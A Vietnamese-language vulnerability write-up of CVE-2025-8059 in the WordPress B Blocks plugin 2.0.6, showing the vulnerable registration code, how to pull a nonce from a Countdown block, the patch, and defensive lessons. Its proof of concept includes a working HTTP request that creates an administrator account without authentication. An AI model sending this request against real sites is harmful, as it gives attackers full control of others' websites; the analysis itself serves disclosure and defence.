

# CVE-2025-8059 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **B Blocks** cho WordPress tồn tại lỗ hổng **Nâng cao đặc quyền (Privilege Escalation)** do **thiếu kiểm tra phân quyền (missing authorization)** và **xác thực dữ liệu đầu vào không đúng cách (improper input validation)** trong hàm **rgfr_registration()** ở **tất cả các phiên bản từ trước đến và bao gồm 2.0.6**. Lỗ hổng này cho phép **kẻ tấn công chưa xác thực (unauthenticated attackers)** có thể **tạo tài khoản mới** và **gán quyền quản trị viên (administrator role)**.

* **CVE ID**: [CVE-2025-8059](https://www.cve.org/CVERecord?id=CVE-2025-8059)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 2.0.6
* **Patched Versions**: 2.0.7
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress B Blocks Plugin](https://wordpress.org/plugins/b-blocks/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **B Blocks**:  
    * `2.0.6` – **vulnerable**  
    * `2.0.7` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Plugin đã đăng ký một action hook như sau:

```php {title="RegisterForm.php v2.0.6" data-open=true hl_lines=[]}
add_action('wp_ajax_nopriv_rgfr_registration', [$this, 'rgfr_registration']);
```

`wp_ajax_nopriv_` là hook dành cho tất cả người dùng (kể cả chưa đăng nhập).
Khi có request đến endpoint `/wp-admin/admin-ajax.php` với param `action=rgfr_registration` thì callback `rgfr_registration` được gọi để xử lý việc đăng ký user.

```php {title="RegisterForm.php v2.0.6" data-open=true hl_lines=[20]}
function rgfr_registration(){
    $userEmailSent = false;
    $adminEmailSent = false;
    $errors = [];

    $nonce = sanitize_text_field($_POST['nonce']);

    if(!wp_verify_nonce($nonce, 'wp_ajax')){
        wp_send_json_error('invalid request');
    }

    $data = [
        'username' => sanitize_text_field($_POST['username'] ?? null),
        'email' => sanitize_text_field($_POST['email'] ?? null),
        'password' => sanitize_text_field($_POST['password'] ?? null),
        'confirmpassword' => sanitize_text_field($_POST['confirmpassword'] ?? null),
        'firstname' => sanitize_text_field($_POST['firstName'] ?? null),
        'lastname' => sanitize_text_field($_POST['lastName'] ?? null),
        'website' => sanitize_text_field($_POST['website'] ?? null),
        'role' => sanitize_text_field($_POST['role'] ?? null),
    ];

    $fields = $this->sanitize_array($_POST['fields']);
    $userEmail = $this->sanitize_array($_POST['userEmail']) ?? null;
    $adminEmail = $this->sanitize_array($_POST['adminEmail']) ?? null;

    ...

    $user_id = wp_create_user( $data['username'], $data['password'], $data['email'] );

    if(isset($user_id->errors)){
        wp_send_json_error($user_id->errors);
    }
    
    // now we create an account
    if( $user_id ){ // sent mail after create account
        wp_update_user([
            'ID' => $user_id,
            'first_name' => $data['firstName'],
            'last_name' => $data['lastName'],
            'user_url' => $data['website'],
            'role' => $data['role'],
        ]);
        ...
    }else {
        wp_send_json_error('something went wrong during registration');
    }

    $user = get_user_by('id', $user_id);

    wp_send_json_success([
        'user' => $user->data,
        'user_id' => $user_id,
        'adminEmailSent' => $adminEmailSent,
        'userEmailSent' => $userEmailSent,
        'roles' => $user->roles
    ]);
}
```

Hàm thực hiện nhận toàn bộ dữ liệu đăng ký do client gửi lên, rồi tạo user trực tiếp trong WordPress. Tuy nhiên **không có cơ chế kiểm soát phân quyền (authorization)** và **không có kiểm tra / ràng buộc giá trị role đầu vào (input validation)**, dẫn đến việc **client có thể tự ý chỉ định role** khi gửi request. Điều này tạo điều kiện cho **người dùng chưa xác thực (unauthenticated user)** có thể **tạo tài khoản mới với quyền quản trị (administrator)**, gây ra **lỗ hổng nâng cao đặc quyền (Privilege Escalation)** nghiêm trọng.

Tuy nhiên, điều kiện tiên quyết để việc đăng ký user mới xảy ra suôn sẻ là phải vượt qua bước kiểm tra nonce:

```php
$nonce = sanitize_text_field($_POST['nonce']);

if(!wp_verify_nonce($nonce, 'wp_ajax')){
    wp_send_json_error('invalid request');
}
```

Hàm thực hiện kiểm tra nonce với action là `wp_ajax`. Khi tìm kiếm với từ khóa `wp_ajax`, có thể thấy nonce được tạo ra khi hai block **`LoginForm`** hoặc **`Countdown`** được thêm vào post/page.


Tuy nhiên, block **`LoginForm`** chỉ xuất hiện trong chế độ **Dev** nên không có cách nào để người dùng thông thường tạo được nonce thông qua block này. 


Như vậy, ta chỉ có thể khai thác dựa trên block **`Countdown`**.


Khi truy cập vào post/page có chứa block **`Countdown`**, trong response HTML sẽ xuất hiện nonce được render ra phía client. Kẻ tấn công chỉ cần mở **View Source** hoặc **DevTools → Network → Response** để trích xuất giá trị nonce này.

Sau khi có nonce hợp lệ, attacker có thể gửi một request thủ công tới endpoint AJAX của WordPress, kèm theo nonce và các tham số đăng ký, đặc biệt là trường **`role=administrator`**. Do phía server **không kiểm tra phân quyền** và **tin tưởng dữ liệu đầu vào**, request sẽ được chấp nhận và tài khoản mới sẽ được tạo với **quyền quản trị viên**, hoàn tất quá trình khai thác lỗ hổng.

Bản vá **`v2.0.7`** đã **xóa bỏ file `RegisterForm.php`**, đồng thời loại bỏ hoàn toàn action hook **`wp_ajax_nopriv_rgfr_registration`**, khiến endpoint đăng ký không còn được public cho người dùng chưa đăng nhập. Việc này chặn trực tiếp khả năng gọi hàm **`rgfr_registration()`** từ bên ngoài, qua đó loại bỏ vector tấn công cho phép tạo tài khoản trái phép và tự gán quyền quản trị.


## Flow


## Proof of Concept (PoC)
1. Truy cập vào post/page có chứa block **`Countdown`** và trích xuất **nonce** từ response trả về (View Source hoặc DevTools → Network).

2. Gửi request tới endpoint **`/wp-admin/admin-ajax.php`** với action **`rgfr_registration`**, kèm theo nonce vừa lấy được và thiết lập tham số **`role=administrator`** để tạo tài khoản với quyền quản trị.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost

action=rgfr_registration&nonce=nonce_value&username=hacker&email=hacker@gmail.com&password=hacker&confirmpassword=hacker&firstname=hacker&role=administrator
```


3. Login với user vừa tạo

## Conclusion

Lỗ hổng trong plugin **B Blocks** phiên bản **2.0.6** xuất phát từ việc endpoint AJAX **`rgfr_registration`** được public cho người dùng chưa đăng nhập, trong khi phía server **chỉ kiểm tra nonce mà không thực hiện kiểm soát phân quyền (authorization)** và **không ràng buộc giá trị role đầu vào (input validation)**. Nonce có thể được thu thập dễ dàng thông qua block **`Countdown`**, cho phép kẻ tấn công gửi request tùy ý và tự gán **`role=administrator`** khi đăng ký tài khoản mới. Kết quả là attacker có thể tạo tài khoản với **quyền quản trị viên**, dẫn đến **nâng cao đặc quyền toàn hệ thống**, gây rủi ro nghiêm trọng cho tính toàn vẹn và bảo mật của website.

## Key Takeaways

* **Nonce không phải là cơ chế phân quyền**: Nonce chỉ giúp chống CSRF, không thể thay thế cho việc kiểm tra quyền truy cập hoặc xác thực người dùng.
* **Không bao giờ tin tưởng dữ liệu từ client**: Các tham số nhạy cảm như **role**, **capability** phải được kiểm soát phía server hoặc whitelist chặt chẽ.
* **Endpoint public cần kiểm soát rủi ro nghiêm ngặt**: Các hook dạng **`wp_ajax_nopriv_*`** phải được thiết kế cẩn thận vì có thể bị truy cập bởi bất kỳ ai.
* **Validate và sanitize là hai khái niệm khác nhau**: Sanitize chỉ làm sạch dữ liệu, không đảm bảo dữ liệu hợp lệ về mặt logic và bảo mật.

## References
[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress B Blocks Plugin 2.0.6 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/b-blocks/vulnerability/wordpress-b-blocks-plugin-2-0-6-missing-authorization-to-unauthenticated-privilege-escalation-via-rgfr-registration-function-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2026-01-11-cve-2025-8059/  

